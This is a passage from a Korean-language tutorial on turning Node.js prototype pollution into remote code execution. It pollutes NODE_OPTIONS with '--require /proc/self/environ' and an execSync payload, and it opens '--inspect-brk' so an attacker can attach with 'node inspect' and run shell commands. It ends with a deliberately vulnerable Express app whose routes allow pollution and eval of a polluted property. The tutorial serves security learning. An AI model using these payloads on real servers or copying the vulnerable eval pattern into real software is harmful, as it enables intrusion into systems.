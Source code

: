 자 그럼 위 루틴을 `NODE_OPTIONS` 환경 변수가 오염 되었다는 과정으로 다시 설명 해보겠습니다.

1. `process.env` 객체에 저장된 환경 변수가 있습니다. js pollution 으로 `NODE_OPTIONS` 와 `RCE` 라는 변수가 각각 설정 합니다.

```jsx
NODE_OPTIONS = "--require /proc/self/environ"
RCE = "require('child_process').execSync('mkdir rce!')"
```

1. `child_process` 모듈을 이용해 자식 프로세스를 생성합니다.  `process.env` 에 입력된 환경 변수가 자식 프로세스의 환경변수로 복사됩니다.
2. `NODE_OPTIONS`에 설정된 환경변수가 argument로 입력됩니다.
3. `RCE` 환경 변수에 설정된 명령어가 실행됩니다.

![Untitled](Node%20js%20Proto%20Pollution%20817c29c0cecd4443a4293fd135cf0f9f/Untitled%206.png)

`**/proc/self/environ` 을 이용하는 방법의 단점은 리눅스 서버에서만 작동합니다.**

그럼 이제 Windows에서도 활용이 가능한 방법을 소개하겠습니다.

위 처럼 환경 변수를 이용해서 자식 프로세스가 생성될 때 공격자의 명령어가 입력이 되는 방법도 있지만 `inspect-brk`를 이용하면 디버깅 모드로 접근해 명령어를 실행할 수도 있습니다.

<aside>
💡 inspect-brk ?
입력된 주소 및 포트로 수신으로 하며 사용자 코드 시작 전에 멈춰 원격 디버깅을 기다립니다.

</aside>

`NODE_OPTIONS` 를 아래와 같이 오염시키면 디버깅을 기다리는 상태가 됩니다.

```jsx
NODE_OPTIONS = "--inspect-brk=0.0.0.0:1234"
```

![Untitled](Node%20js%20Proto%20Pollution%20817c29c0cecd4443a4293fd135cf0f9f/Untitled%207.png)

이후 공격자는 node inspect를 이용해 접근하면 리버스쉘같이 원격 쉘 명령어를 사용할 수 있습니다.

```jsx
$ node inspect 192.168.200.48:1234
debug> exec require("child_process").execSync("ls -al") + []
```

![Untitled](Node%20js%20Proto%20Pollution%20817c29c0cecd4443a4293fd135cf0f9f/Untitled%208.png)

## Code Execute

```jsx
app.get('/poll', function(req, res){
    let obj1 = {};
    let { key, key2, value } = req.query;

    if(key && key2 && value)
    {
        obj1[key][key2] = value
        res.send(obj)
    }

});

app.get('/execute', function(req, res){
    const obj1 = {}

    if(obj1.command)
    {
      eval(obj1.command);
      res.send("command execute : " + obj1.command);
    }
});
```